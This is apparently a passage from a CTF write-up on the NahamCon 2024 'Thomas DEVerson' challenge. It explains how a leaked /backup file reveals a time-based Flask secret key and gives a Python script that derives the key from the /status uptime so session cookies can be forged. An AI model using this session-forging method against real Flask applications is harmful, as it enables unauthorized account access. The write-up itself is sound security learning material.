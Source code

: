### MOVE the flag
![Alt text](image-21.png)
![Alt text](static.png)


## Thomas DEVerson (175 pts)
> All things considered, I'm impressed this website is still up and running 200 years later. 

`#flask-session` `#brute-force` 

Flask session brute-forcing challenge. There is a source code disclosure in `/backup` revealing the secret_key value which eappends current datetime value to the flask secret. `THE_REYNOLDS_PAMPHLET-`  We are also given available users

### /backup
![alt text](ctf/Jeopardy/2024/NahamCon%20CTF%202024/_attachments/image-3.png)

Clue when the `datetime.now()` was initially ran in `/status`

![alt text](ctf/Jeopardy/2024/NahamCon%20CTF%202024/_attachments/image-2.png)

From this we can learn try and generate a valid secret by subtracting current date to the returned output from status.

### get_secret.py
I used this script to potentially find the exact value of the secret by subtracting current datetime with the results from /status but did not work. It helped since I got the year and close with the correct value.

```python
from datetime import datetime, timedelta
import requests 
import re
resp = requests.get("http://challenge.nahamcon.com:31915/status")

print(resp.text)

match = re.search(r"(\d+) days (\d+) hours (\d+) minutes", resp.text) 
if match:
    days= int(match.group(1))
    hours = int(match.group(2))
    minutes = int(match.group(3))

    current_date = datetime.now() 
    timedelta_to_subtract = timedelta(days=days, hours=hours, minutes=minutes)

    resulting_date = current_date - timedelta_to_subtract
    print("Resulting date and time:", resulting_date)
    formatted = resulting_date.strftime("%Y%m%d%H%M")
    
    secret_key = f'THE_REYNOLDS_PAMPHLET-{formatted}'
    print(secret_key)
```
